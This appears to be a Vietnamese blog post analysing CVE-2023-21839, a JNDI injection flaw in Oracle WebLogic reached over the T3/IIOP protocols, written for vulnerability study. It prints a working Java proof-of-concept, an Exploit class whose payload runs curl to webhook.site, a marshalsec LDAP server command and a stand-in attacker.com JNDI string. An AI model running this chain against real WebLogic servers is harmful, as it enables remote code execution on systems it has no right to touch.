







+++
date = '2025-06-10T00:00:00+07:00'
draft = false
title = 'Phân tích CVE-2023-21839'
description = 'Phân tích CVE-2023-21839'
tags = ['cve', 'java', 'deserialize', 'oracle', 'weblogic']
+++
# Phân tích CVE-2023-21839

## Overview

### JNDI

Java Naming Directory Interface là một API của cho phép các ứng dụng Java tìm kiếm, truy xuất và quản lý các đối tượng hoặc tài nguyên được đăng ký trong một hệ thống danh mục.

Dưới đây là ví dụ quá trình tìm và sử dụng đối tượng/tài nguyên:



### JNDI Injection

Là việc kẻ tấn công có thể thao túng quá trình tìm và load đối tượng/tài nguyên (`lookup()`, `${jndi:ldap://attacker.com/Exploit}`, ...) từ đó thực hiện các hành vi phi pháp.

Các phiên bản JDK cao đã có những thiết lập mặc định nhằm khắc chế lỗ hổng này:

* JDK > 6u45, 7u21: Ở phiên bản này `java.rmi.server.useCodebaseOnly` được đặt mặt định là `true` nên tính năng load class từ xa của RMI bị vô hiệu, class chỉ được load khi nằm trong classpath hoặc được chi định bởi `java.rmi.server.codebase.`
* JDK > 6u141, 7u131, 8u121: Ở các phiên bản này `com.sun.jndi.rmi.object.trustURLCodebase` được giới thiệu và đặt mặc địch là false, khi đó RMI hay CORBA sẽ không được phép load class động từ bất kỳ URL nào mà phải từ classpath. Tuy nhiên ta có thể bypass bằng cách sử dụng URL với giao thức LDAP.
* JDK > 6u211, 7u201 và 8u191: Ở các phiên bản này option `com.sun.jndi.ldap.object.trustURLCodebase` được thêm vào và đặt mặc định là false, nó sẽ disable khả năng load class động của LDAP.

### T3 Protocol

* T3 là giao thức **độc quyền** của Oracle, thiết kế riêng cho WebLogic Server để truyền tải dữ liệu giữa các máy chủ, client và cluster. Nó tối ưu hóa hiệu suất cho các ứng dụng Java EE, đặc biệt trong môi trường phân tán.
* Cơ chế hoạt động dựa trên **Java Object Serialization.**
* Thường sử dụng cổng **7001**

### IIOP Protocol

* IIOP (Internet Inter-ORB Protocol) là giao thức **chuẩn** dựa trên CORBA (Common Object Request Broker Architecture), được sử dụng để giao tiếp giữa các ứng dụng phân tán trên nhiều nền tảng.
* **Cơ chế hoạt động**:
  * Sử dụng **CDR (Common Data Representation)** để tuần tự hóa dữ liệu.
  * Hỗ trợ tương tác đa ngôn ngữ (Java, C++, Python,...) và đa nền tảng.
* **Cổng mặc định**: Thường chạy trên cổng **900**.

## Setup

* WebLogic 14.1.1.0 (không áp bản vá nào)
* JDK 1.8.0\_151

## Phân tích

CVE bắt nguồn từ việc không xử lý đúng cách các đối tượng được tuần tự hóa thông qua các giao thức T3/IIOP. Lỗ hổng cho phép kẻ tấn công có thể gửi một đối tượng tuần tự hóa độc hại, khiến WebLogic giải tuần tự hóa (deserialize) và thực thi mã tùy ý.

* Ta sẽ bắt đầu từ PoC của CVE này.

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;
import java.util.Random;

import weblogic.deployment.jms.ForeignOpaqueReference;

public class CVE_2023_21839 {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String args[]) throws Exception {
        if(args.length <2){
            System.exit(0);
        }
        String t3Url = args[0];
        String ldapUrl = args[1];
        InitialContext c = getInitialContext("t3://" + t3Url);
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(f, ldapUrl);
        String bindName = new Random(System.currentTimeMillis()).nextLong()+"";
        try{
            c.bind(bindName,f);
            c.lookup(bindName);
        } catch (Exception e) { }

    }
}
```

Để có thể compile PoC với classpath chứa các file jar cần thiết thì mình để file **CVE\_2023\_21839.java** tại thư mục `/path/to/Oracle/Middleware` và dùng command sau:

```bash
javac -cp ".:$(find . -type f -name '*.jar' | tr '\n' ':')" CVE_2023_21839.java
```

* Bên cạnh đó ta cần thêm file **Expoit.java** chứa mã nguồn mà ta muốn thực thi trên target server.

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec(new String[]{"curl", "webhook.site/r"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compile file **Exploit.java**

```bash
javac Exploit.java -source 8 -target 8
```

* Sử dụng công cụ `marshalsec` để tạo server LDAP phục vụ cho quá trình tấn công JNDI Injection:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Exploit"
```


* Chạy PoC với cú pháp:

```bash
java -cp ".:$(find . -type f -name '*.jar' | tr '\n' ':')" CVE_2023_21839 T3URL ldapURL
```



Mình sẽ đặt breakpoint đầu tiên tại hàm `lookup()` của `weblogic.jndi.internal.RootNamingNode`



Đây là hàm xử lý việc tìm kiếm tài nguyên được yêu cầu từ client (tức Exploit.java trong ngữ cảnh này)



Object của class `ForeignOpaqueReference` được trả về từ quá trình "lookup".

Nói thêm về class này, nó là cách mà WebLogic đóng gói thông tin trừu tượng (opaque) tham chiếu đến các đối tượng từ xa (ví dụ EJB objects) khi chúng được truyền thông qua giao thức T3 hoặc IIOP.

Tiếp tục debug



Trong quá trình khôi phục lại object, chương trình kiểm tra liệu object đang được khôi phục liệu có phải là một "Reference" hay không, nếu có thì tiến hành gọi đến `getReferent()` để tiến hành lookup và khôi phục object thực.

Trong hàm `ForeignOpaqueReference.getReferent()` tiếp tục lookup đến đối tượng được đóng gói.



Đến đây thì cũng giống như bao lỗ hổng liên quan đến JNDI Injection khác nên mình sẽ biểu diễn ngắn gọn quá trình bằng diagram sau:



Theo hiểu biết của mình, CVE này chỉ có thể được khai thác nếu hệ thống được build bằng các phiến bản Java cũ (chưa có các cơ chế chống lại JNDI Injection) và chưa áp dụng các bản vá bảo mật từ hãng.

## Kết

Cám ơn mọi người đã chịu khó đọc đến đây, nếu mọi người có góp ý gì hãy cứ thoải mái nhé (Chắc sắp tới phải đổi nền tảng cho mọi người dễ góp ý:smile:)